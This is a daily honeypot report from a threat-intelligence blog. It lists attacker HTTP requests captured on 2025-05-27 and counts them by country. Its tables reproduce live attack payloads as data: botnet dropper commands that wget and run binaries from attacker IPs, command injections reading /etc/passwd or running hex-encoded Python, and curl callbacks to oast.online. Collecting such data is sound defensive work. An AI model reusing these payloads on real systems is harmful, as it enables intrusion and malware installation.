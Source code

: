 ```yaml
---
title: "Report: 2025-05-27 "
date: 2025-05-27
desciption: "Report: 2025-05-27" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-27 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 44 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 901 requests were recorded during the day, originating from 2 different countries, with a peak of 237 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| ID               | Germany            |
| BR               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| BR               | Germany            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                              |
|:---------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 41.220.172.226 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.153.34.62/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                            |
| 176.65.148.236 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20neon.arm7%3B%20wget%20http%3A%2F%2F209.141.34.106%2Fdwrioej%2Fneon.arm7%3B%20chmod%20777%20neon.arm7%3B%20.%2Fneon.arm7%20router1 HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  26 |                     4 | GET /public/css/2xcyvtr7m1fGQHcmRkDpum7Zpez.css HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                               |
|  30 |                     4 | GET /file/bcxj0I.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                          |
|  45 |                     4 | GET /include/rjus.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                         |
|  48 |                     4 | GET /include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)%3Erjus.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
|  51 |                     4 | GET /webadmin/tools/unixlogin.php?login=admin&password=g%27%2C%27%27%29%3Bimport%20os%3Bos.system%28%276563686f20224d6e686a65585a75545446735630746d62334232547a497a56334a335a32316b627a5a6122207c20626173653634202d64203e202f7573722f6c6f63616c2f6e6574737765657065722f77656261646d696e2f6f7574%27.decode%28%27hex%27%29%29%23&timeout=5 HTTP/1.1                                                                                      |
|  70 |                     2 | GET /include/makecvs.php?Event=%60curl+http%3a//d0q39sn0prvpilv9a4p0jz6zhz9uszqtq.oast.online+-H+'User-Agent%3a+qBK4al'%60 HTTP/1.1                                                                                                                                                                                                                                                                                                    |
|  72 |                     2 | GET /MyAdmin/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                |
|  74 |                     2 | GET /include/makecvs.php?Event=%60curl+http%3a//d0q39sn0prvpilv9a4p0tiqp1ugqp5msa.oast.online+-H+'User-Agent%3a+qBK4al'%60 HTTP/1.1                                                                                                                                                                                                                                                                                                    |
|  76 |                     2 | GET /tos/index.php?explorer/pathList&path=%60curl+http%3a//d0q39sn0prvpilv9a4p0iza1keo3pfgjj.oast.online+-H+'User-Agent%3a+qBK4al'%60 HTTP/1.1                                                                                                                                                                                                                                                                                         |
|  79 |                     2 | GET /upload/userfiles/image/2xcyvtaGxB88bWp4UkDW4fLAZ7H.png HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                   |
|  83 |                     2 | GET /assets/data/usrimg/2xcyvof60o6svccutewai3ydeou.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                       |
|  86 |                     2 | GET /tos/index.php?explorer/pathList&path=%60curl+http%3a//d0q39sn0prvpilv9a4p05hgs985z4eew4.oast.online+-H+'User-Agent%3a+qBK4al'%60 HTTP/1.1                                                                                                                                                                                                                                                                                         |
| 108 |                     1 | GET /marketplace/api/marketplace/dashboard/recently-listed?count=14 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
| 125 |                     1 | \x00\x00\x00j\xFESMB@\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00$\x00\x03\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x02\x00\x03\x02\x03 |
| 127 |                     1 | GET /Qqa9 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 128 |                     1 | GET /AOUx HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 129 |                     1 | \x00\x0E8\xFBY}\xEB4'/\x85\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                         |
| 139 |                     1 | \x00\x0E\x08\x02\xD8\x88\xB9\x83kA\xE2\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                             |
| 140 |                     1 | \x00\x0E8\x02\xD8\x88\xB9\x83kA\xE2\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                |
| 150 |                     1 | GET /admin/configs.php HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                        |
| 163 |                     1 | \x00\x0E8\xA0\x84\xC4\xD4?1W\xE8\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                   |
| 200 |                     1 | \x00\x0E8\x7F|\xC4\xB3\x92\x14W\x90\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                |
| 205 |                     1 | GET /phpMyAdmin-3.0.0.0-all-languages/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                       |
| 206 |                     1 | GET /phpMyAdmin-2.10.0.0/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                    |
| 207 |                     1 | GET /phpMyAdmin-2.11.11/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                     |
| 209 |                     1 | GET /phpMyAdmin-2.11.11.3/scripts/setup.ph HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                    |
| 211 |                     1 | GET /my/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
| 212 |                     1 | GET /PHPMYADMIN/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
| 217 |                     1 | GET /mysqladmin/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
| 219 |                     1 | GET /phpMyAdmin/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
| 220 |                     1 | GET /phpadmin/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
| 222 |                     1 | GET /sqladm/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                 |
| 223 |                     1 | GET /sqladmin/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
| 224 |                     1 | GET /phpmyadmin/scripts/db.init.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                           |
| 225 |                     1 | GET /phpMyAdmin/scripts/db.init.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                           |
| 226 |                     1 | GET /database/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
| 227 |                     1 | GET /phpAdmin/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
| 229 |                     1 | GET /phpmyadmin2/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |
| 230 |                     1 | GET /pma/scripts/setup.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                    |
| 233 |                     1 | \x00\x0E8Gw\x072#\xA5ai\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                            |
| 238 |                     1 | \x12\x01\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\xFF                                                                                                                                                                                                                                                                                                          |
| 240 |                     1 | SSH-2.0-WanScannerBot                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 244 |                     1 | \x00\x00\x00%\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                     |
| 247 |                     1 | \x01\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   237 | US                 |
|  1 |                   198 | SA                 |
|  2 |                   103 | DE                 |
|  3 |                    85 | PL                 |
|  4 |                    61 | BG                 |
|  5 |                    52 | NL                 |
|  6 |                    21 | IN                 |
|  7 |                    17 | CA                 |
|  8 |                    15 | GB                 |
|  9 |                    12 | AU                 |
| 10 |                    12 | CZ                 |
| 11 |                    10 | LT                 |
| 12 |                     8 | SG                 |
| 13 |                     7 | RU                 |
| 14 |                     6 | BE                 |
| 15 |                     6 | UA                 |
| 16 |                     5 | CN                 |
| 17 |                     4 | SC                 |
| 18 |                     4 | VN                 |
| 19 |                     4 | BR                 |
| 20 |                     4 | FR                 |
| 21 |                     4 | IL                 |
| 22 |                     3 | CH                 |
| 23 |                     3 | ID                 |
| 24 |                     3 | JP                 |
| 25 |                     3 | ES                 |
| 26 |                     2 | SE                 |
| 27 |                     2 | IE                 |
| 28 |                     1 | GH                 |
| 29 |                     1 | MZ                 |
| 30 |                     1 | MC                 |
| 31 |                     1 | PA                 |
| 32 |                     1 | IR                 |
| 33 |                     1 | RO                 |
| 34 |                     1 | AT                 |
| 35 |                     1 | PK                 |
| 36 |                     1 | AO                 |
| 37 |                     1 | KR                 |
